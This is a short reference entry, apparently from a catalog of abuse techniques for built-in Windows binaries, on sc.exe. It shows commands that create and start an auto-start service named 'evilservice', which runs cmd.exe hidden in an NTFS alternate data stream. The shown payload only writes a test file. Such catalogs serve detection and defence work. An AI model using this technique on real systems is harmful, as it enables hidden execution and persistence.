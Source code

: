 ## SC.exe

* Functions: Execute, Read ADS, Create Service, Start Service

```
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto     
sc start evilservice     

```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

Full path:
```
c:\windows\system32\sc.exe
c:\windows\sysWOW64\sc.exe
```

Notes:



 
